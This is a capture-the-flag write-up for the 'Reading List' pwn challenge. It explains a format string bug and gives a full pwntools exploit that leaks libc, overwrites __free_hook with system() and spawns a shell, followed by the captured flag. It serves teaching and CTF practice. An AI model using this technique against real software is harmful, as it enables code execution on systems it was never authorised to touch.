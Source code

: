 # Reading List

## Challenge

The program allows the user to choose actions from a menu to add, remove, or print entries.
It also asks for the user's name and allows the user to change their name at any point.

All standard mitigations are enabled.

## Solution

There is a format string vulernability in the `print_list()` and `remove_book()` functions.
When we print our books, the input is used directly as the format string, allowing us to insert our own conversion specifiers.

We start by using this vulnerability to leak the libc address from the stack.

Once we have the libc address, we can overwrite `__free_hook`.
To do so, we need to put addresses to `__free_hook` on the stack.
Fortunately, our name is stored on the stack.
We can enter 3 addresses on the stack, each covering a different word in `_free_hook`.

Each of these 3 addresses can be written to by a different entry.
For each write, we create one book with a format string payload to overwrite it with part of the `system()` address.
We then add an entry with `"/bin/sh"` so we can delete to call `system("/bin/sh")`.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host challenge.nahamcon.com --port 32355 reading_list
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('reading_list')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'challenge.nahamcon.com'
port = int(args.PORT or 32355)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

libc = ELF('libc-2.31.so')

io = start()

io.sendlineafter(b"What is your name: ", b"")

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", b"%23$p")

io.sendlineafter(b"> ", b"1")
io.recvuntil(b"1. ")
libc.address = int(io.recvline(), 0) - libc.libc_start_main_return

info("LIBC: " + hex(libc.address))

io.sendlineafter(b"> ", b"4")
io.sendlineafter(b"What is your name: ", flat([
    libc.sym['__free_hook'] + 0,
    libc.sym['__free_hook'] + 2,
    libc.sym['__free_hook'] + 4,
    ]))

fmt = ""
written = 0
to_write = 0

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", f"%{(libc.sym['system']) % 0x10000}c%22$hn".encode())

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", f"%{(libc.sym['system'] >> 0x10) % 0x10000}c%23$hn".encode())

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", f"%{(libc.sym['system'] >> 0x20) % 0x10000}c%24$hn".encode())

io.sendlineafter(b"> ", b"2")
io.sendlineafter(b"Enter the book name: ", b"/bin/sh")

io.sendlineafter(b"> ", b"3")
io.sendlineafter(b": ", b"5")

io.interactive()
```

## Flag

```
flag{1b0d16889d3b8a1cb31232763b51a03d}
```
